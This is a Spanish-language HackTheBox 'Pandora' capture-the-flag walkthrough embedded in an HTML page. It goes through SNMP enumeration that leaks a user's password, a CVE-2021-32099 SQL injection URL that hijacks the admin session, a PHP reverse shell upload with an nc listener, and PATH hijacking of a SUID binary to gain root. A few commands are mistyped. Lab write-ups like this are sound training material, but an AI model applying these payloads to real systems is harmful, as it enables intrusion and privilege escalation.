





<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Pandora</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Pandora" de HackTheBox

Caracteristicas:

- Linux
- Facil
- SNMP Fast Enumeration
- Information Leakage Local 
- Port Forwarding
- SQL Injection 
- Admin Session Hijacking
- PandoraFMS v7.0NG Authenticated
- Remote Code Execution [CVE-2019-20224] 
- Abusing Custom Binary 
- PATH Hijacking [Privilege Escalation]

Util en:
- OSCP 
- eWPT

        IP 10.10.11.136

Escaneo de puertos

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.136

    Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-18 19:51 UTC
    Nmap scan report for 10.10.11.136
    Host is up (0.092s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

sudo nmap -sCV -p22,80 10.10.11.136 -oN target

    Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-18 19:51 UTC
    Nmap scan report for 10.10.11.136
    Host is up (0.090s latency).

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Play | Landing
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

buscamos el codename y es un Ubuntu 20.04 focal, tambien buscaremos los puertos udp y como vemos el puerto 80 miraremos la ip en nuestro navegador
vemos apache http server y mientras revisamos la pagina notamos un dominio 'panda.htb' que agregaremos al /etc/hosts para ver que el sitio no cambia
con este dominio.

- sudo nmap -sU -top-ports=100 panda.htb

    Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-18 20:10 UTC
    Nmap scan report for panda.htb (10.10.11.136)
    Host is up (0.089s latency).
    Not shown: 99 closed ports
    PORT    STATE SERVICE
    161/udp open  snmp

vemos el puerto '161', que ejecuta un servicio SNMP
SNMP es un servicio que permite el monitoreo de la red
usaremos scripts de nmap para sacar mas info de este puerto

- nmap -p 161 -sU -A -v 10.10.11.136




alternativamente podemos instalar 'snmp-mibs-downloader', podemos realizar un recorrido SNMP contra el host para ver los datos

- sudo apt install snmp-mibs-downloader 

Una vez instalado, diríjase a su configuración SNMP en '/etc/snmp/snmp.conf' y comente la línea 'mibs'. 
a continuación, podemos ejecutar 'snmpbulkwalk', que es más rápido que la herramienta tradicional 'snmpwalk'.

- snmpbulkwalk -Cr1000 -c public -v2c 10.129.238.192 . | tee -a snmp3

    SNMPv2-MIB::sysDescr.0 = STRING: Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64

    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10

    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (244685) 0:40:46.85

    SNMPv2-MIB::sysContact.0 = STRING: Daniel

    SNMPv2-MIB::sysName.0 = STRING: pandora

    SNMPv2-MIB::sysLocation.0 = STRING: Mississippi

    SNMPv2-MIB::sysServices.0 = INTEGER: 72


Ordenar la salida SNMP 
    
- grep -oP '::.*?\.' snmp3 | sort | uniq -c | sort -n

--snip--

    201 ::hrSWRunID.

    201 ::hrSWRunIndex.

    201 ::hrSWRunName.

    201 ::hrSWRunParameters.

    201 ::hrSWRunPath.

    201 ::hrSWRunPerfCPU.

    201 ::hrSWRunPerfMem.

    201 ::hrSWRunStatus.

    201 ::hrSWRunType.

    396 ::nsModuleModes.

    396 ::nsModuleName.

    396 ::nsModuleTimeout.

    820 ::hrSWInstalledDate.

    820 ::hrSWInstalledID.

    820 ::hrSWInstalledIndex.

    820 ::hrSWInstalledName.

    820 ::hrSWInstalledType.

--snip--

y nos servira 'hrSWRun', esto nos permite mostrar los nombres SNMP en orden de recurrencia en la salida.
Al usar grep para buscar 'hrSWRun' y canalizarlo a less, podemos desplazarnos por la salida. O podemos presionar repetidamente 'd' para saltar media página,
Finalmente, encontramos 'hrSWRunParameters' que tiene información interesante
vemos que el usuario daniel está ejecutando un script llamado 'host_check' y dejo sus credenciales

- grep hrSWRun snmp3|  menos 

    --snip--
    HOST-RESOURCES-MIB::hrSWRunParameters.963 = STRING: "-f"

    HOST-RESOURCES-MIB::hrSWRunParameters.972 = STRING: "-f"

    HOST-RESOURCES-MIB::hrSWRunParameters.974 = STRING: "-f"

    HOST-RESOURCES-MIB::hrSWRunParameters.975 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
    
    HOST-RESOURCES-MIB::hrSWRunParameters.976 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"

    HOST-RESOURCES-MIB::hrSWRunParameters.978 = ""

    HOST-RESOURCES-MIB::hrSWRunParameters.1011 = STRING: "-o -p -- \\u --noclear tty1 linux"

    HOST-RESOURCES-MIB::hrSWRunParameters.1027 = STRING: "-k start

    --snip--

probamos las credenciales en ssh y ingresamos 

- ssh daniel@10.10.11.136 -p HotelBabylon23

una vez adentro desafortunadamente, parece que daniel no tiene nada en su directorio personal, pero en home vemos el directorio matt que en su home tiene la
flag de user, asi que buscaremos la forma de escalar privilegios. Usaremos linpeas mandando el script desde nuestra maquina atacante.

- python3 -m http.server 8000

desde la victima 

- wget http://10.10.14.18/:8000/linpeas.sh

- mv linpeas.sh /dev/shm

- cd /dev/shm

- chmod +x linpeas.sh

- ./linpeas.sh | tee lin.log

tambien en paralelo revisaremo las configuraciones del sitio Apache están en /etc/apache2/sites-enabled. En este caso son dos: 

000-default.conf  pandora.conf

000-default.confParece un servidor web estándar, escucha en 80 y aloja fuera de /var/www/html: 

- cat pandora.conf | grep -Pv "^\s*#" | grep .

Solo escucha en localhost y bajo el nombre del servidor. pandora.panda.htb. Está alojado fuera de /var/www/pandora, y funcionando como matt
Matt es dueño de la carpeta pandora, pero cualquier usuario puede navegar hasta ella y leer:

    daniel@pandora:/var/www$ ls -l

    total 8

    drwxr-xr-x 3 root root 4096 Dec  7 14:32 html

    drwxr-xr-x 3 matt matt 4096 Dec  7 14:32 pandora


No hay lugares escribibles por daniel en pandora:

    daniel@pandora:/var/www$ find pandora/ -writable

mientras agregaremos 'pandora.panda.htb' al etc hosts, sabemos que tenemos una aplicación web oculta escuchando en localhost en el puerto 80. 
volvemos a la salida de linpeas y en uno de los binary processes permissions vemos /usr/bin/host-check
asi que intentamos ejecutarlo como usuario y contraseña de 'daniel', como no finalizo ctrl + c y en la salida vemos

Pandora FMS versión 7.0 NG.742_FIX_PERL202

Pandora FMS es un software de 
código abierto para monitorear redes e infraestructura de TI.  Puede 
monitorear el estado y el rendimiento de los equipos de red, los 
sistemas operativos, la infraestructura virtual y todos los diferentes 
tipos de aplicaciones y sistemas sensibles a la seguridad, como 
firewalls, bases de datos y servidores web.  Muchos líderes de la 
industria utilizan su edición empresarial, por ejemplo, AON, Allianz y 
Toshiba.

El servidor Pandora suele utilizar el puerto 80 en la máquina localhost (127.0.0.1). 
Para acceder a ese host necesitamos reenviar el puerto 80 en el destino a nuestro host en un puerto diferente. 
Esto se puede hacer a través de ssh emitiendo el siguiente comando. 

- ssh -L 80:127.0.0.1:80 daniel@10.10.11.136

establecemos pandora.panda.htb  127.0.0.1 en mi /etc/hosts
ahora, si accedemos a pandora.panda.htb:80 en nuestra máquina atacante, el tráfico se reenviará desde el puerto 80 desde la máquina de destino. 



continuamos buscando algun exploit para version de pandora que encontramos

- searchsploit pandora

y encontramos 

SQL Injection (pre authentication) (CVE-2021-32099)
Phar deserialization (pre authentication) (CVE-2021-32098)
Remote File Inclusion (lowest privileged user) (CVE-2021-32100)
Cross-Site Request Forgery (CSRF)

asi que buscamos el cve de injeccion sql https://github.com/ibnuuby/CVE-2021-32099

CVE-2021-32099

POC : http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271

Esta inyección de SQL está presente porque la declaración SQL no utiliza declaraciones preparadas, como puede ver a continuación. Normalmente, 
utilizaría un signo de interrogación en lugar de los parámetros. Probablemente sea mejor leer sobre declaraciones preparadas en otro lugar, ya que haré un trabajo terrible al explicarlas. 

Nos centramos en una grave vulnerabilidad de inyección SQL. Puede explotarse de forma remota sin ningún privilegio de acceso y permite a un atacante eludir 
por completo la autenticación del administrador. Esto permite al final ejecutar código arbitrario en el sistema. 

https://www.youtube.com/watch?v=61KE45V7VT8

volviendo ha https://github.com/ibnuuby/CVE-2021-32099

vemos que esta codificado en url, usamos url encoder para decodificarlo.

https://meyerweb.com/eric/tools/dencoder/

entrada:
- http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuarios:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20DONDE%20%271%27=%271

salida:
- http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1

luego de eso vamos a la seccion upload file administrator archives en admin tools y cargamos una reverse shell
usaremos :

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php




habrimos una consola con nc en el puerto que introducimos

- sudo nc -nlvp puerto

- mkdir .ssh

- chmod 700

- cd .ssh

- touch authorized_keys

y le damos permisos 600.

- chmod 600 authorized_keys

luego copiamos el archivo id_rsa.pub y lo pegamos dentro de authorized_keys, nos conectamos desde nuestra maquina al usuario matt

- ssh matt@ip

una vez dentro tenemos la flag de usuario y procederemos a buscar archivos con permisos suid

- find / -perm -4000 2>/dev/null

vemos /usr/bin/pandora_backups
podemos ver que inentta hacer con ltrace y notarémos que system llama a tar sin una ruta completa

pandora_backup tiene permiso ejecutable otorgado al usuario matt 
este binario se puede utilizar en la escalada de privilegios o Path Hijacking, si los comandos de Linux utilizados dentro de este binario no se utilizan con su ruta absoluta.
comprobemos si está utilizando algún comando de Linux sin su ruta absoluta. 

- cat /usr/bin/pandora_backup 



se puede apreciar que esta usando el binario tar para comprimir el archivo, podemos usarlo para tener nuestro escalada a root
pondremos una shell en la ruta de tar

- matt@pandora:~$ echo "/bin/bash" > /tmp/tar
- matt@pandora:~$ chmod +x /tmp/tar
- matt@pandora:~$ echo $PATH/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
- matt@pandora:~$ export PATH=/tmp:$PATH
- matt@pandora:~$ echo $PATH/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

- matt@pandora:~$ /usr/bin/pandora_backup

con esto ya seriamos root asi que buscamos la flag y terminada.


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido
a que en algunas de las máquinas que realice no tome los apuntes o no tome capturas de pantalla así que he decidido buscar varios writeups
y agregar lo que este mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía o cualquier error, 
Puedes contactarme a mi correo:

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>